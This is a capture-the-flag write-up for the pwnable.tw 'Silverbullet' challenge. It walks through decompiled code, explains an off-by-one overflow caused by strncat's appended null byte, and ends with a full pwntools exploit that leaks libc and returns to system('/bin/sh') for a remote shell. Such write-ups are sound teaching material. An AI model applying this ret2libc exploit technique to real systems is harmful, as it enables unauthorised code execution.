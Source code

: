 # Pwnable.tw - Silverbullet

* Website : Pwnable.tw
* Challenge : Silverbullet
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
This is a challenge about **off-by-one** vulneribility. :ok_hand: 

We'll trace the source code of **strncat** later. :+1: 

## 0x01
The first thing we have to do is **checksec** :

![](https://i.imgur.com/aqHQujE.png)

**FULL RELRO** means we cannot overwrite **GOT**.

**No PIE** means we can write the true address by using **objdump**.

Let's use **IDA Pro** to decompile the binary :

There are three functions named **create_bullet**, **power_up** and **beat**.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int menu_choice; // eax
  int wolf_hp; // [esp+0h] [ebp-3Ch]
  const char *wolf_name; // [esp+4h] [ebp-38h]
  SilverBullet bullet; // [esp+8h] [ebp-34h]

  init_proc();
  bullet.size = 0;
  memset(&bullet, 0, 0x30u);
  wolf_hp = 0x7FFFFFFF;
  wolf_name = "Gin";
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          menu();
          menu_choice = read_int();
          if ( menu_choice != 2 )
            break;
          power_up(&bullet);
        }
        if ( menu_choice > 2 )
          break;
        if ( menu_choice != 1 )
          goto LABEL_16;
        create_bullet(&bullet);
      }
      if ( menu_choice == 3 )
        break;
      if ( menu_choice == 4 )
      {
        puts("Don't give up !");
        exit(0);
      }
LABEL_16:
      puts("Invalid choice");
    }
    if ( beat(&bullet, &wolf_hp) )
      return 0;
    puts("Give me more power !!");
  }
}
```

1. **create_bullet** is a function which creates our bullet by the strlen.

```c
int __cdecl create_bullet(SilverBullet *bullet)
{
  size_t str_len; // ST08_4

  if ( bullet->input[0] )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(bullet, 48u);
  str_len = strlen(bullet->input);
  printf("Your power is : %u\n", str_len);
  bullet->size = str_len;
  return puts("Good luck !!");
}
```

2. **power_up** is a function which has an **off-by-one** vulneribility. It uses **strncat** to describe our power of bullet, however, **strncat** will add **\x00** after the end of the string, and this could lead to **overflow**.

```c
int __cdecl power_up(SilverBullet *bullet)
{
  SilverBullet newBullet; // [esp+0h] [ebp-34h]

  newBullet.size = 0;
  memset(&newBullet, 0, 0x30u);
  if ( !bullet->input[0] )
    return puts("You need create the bullet first !");
  if ( bullet->size > 47 )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&newBullet, 48 - bullet->size);
  strncat(bullet->input, newBullet.input, 48 - bullet->size);
  newBullet.size = strlen(newBullet.input) + bullet->size;
  printf("Your new power is : %u\n", newBullet.size);
  bullet->size = newBullet.size;
  return puts("Enjoy it !");
}
```

Let's trace the source code of **strncat**, we can easily see **\x00** is added after the end of the string.

```c
STRNCAT (char *s1, const char *s2, size_t n)
{
  char *s = s1;
  /* Find the end of S1.  */
  s1 += strlen (s1);
  size_t ss = __strnlen (s2, n);
  s1[ss] = '\0';    <-- add \x00 after the end of the string
  memcpy (s1, s2, ss);
  return s;
}
```

3. **beat** is a function which return a value to the main function.

```c
signed int __cdecl beat(SilverBullet *bullet, _DWORD *wolf_hp)
{
  signed int result; // eax

  if ( bullet->input[0] )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", wolf_hp[1]);
    printf(" + HP : %d\n", *wolf_hp);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *wolf_hp -= bullet->size;
    if ( *wolf_hp <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```

## 0x02
Our thoughts would be clear and shows below:

Input 47 characters to **create_bullet**, and then **power_up** to input one more character, using **strncat** to overwrite the size of bullet.

```c
newBullet.size = strlen(newBullet.input) + bullet->size;
  printf("Your new power is : %u\n", newBullet.size);
```

It equals to **newBullet.size = 1 + \x00 = 1**

So now we can input more 47 characters to overwrite the return address.

We leak the libc address by loop1, and then return to libc by loop2, sweet. :+1: 

## 0x03
Exploit:
```python
from pwn import *

#r = process(['/glibc/2.23/32/lib/ld-2.23.so','./silver_bullet'],env={'LD_PRELOAD':'./libc_32.so.6'})
r = remote('chall.pwnable.tw',10103)

def create():
    r.recvuntil('choice :')
    r.sendline('1')
    r.recvuntil('bullet :')
    r.sendline('a'*47)

def power(p):
    r.recvuntil('choice :')
    r.sendline('2')
    r.recvuntil('bullet :')
    r.sendline(p)

def beat():
    r.recvuntil('choice :')
    r.sendline('3')

def main():
    #first loop to leak the libc address
    create()
    power('b')
    power('b'*7+p32(0x80484a8)+p32(0x08048954)+p32(0x804afd0))
    beat()
    beat()
    r.recvuntil('Oh ! You win !!\n')
    leak = u32(r.recvuntil('\n').strip('\n')[:4])
    libc_base_offset = 0xd41c0
    libc_system_offset = 0x0003a940
    libc_base = leak - libc_base_offset
    libc_system = libc_base + libc_system_offset
    libc_binsh_offset = 0x00158e8b
    libc_binsh = libc_base + libc_binsh_offset
    #second loop to return to libc
    create()
    power('b')
    power('b'*7+p32(libc_system)+p32(libc_system)+p32(libc_binsh))
    beat()
    beat()

if __name__ == '__main__':
    main()
    r.interactive()
```
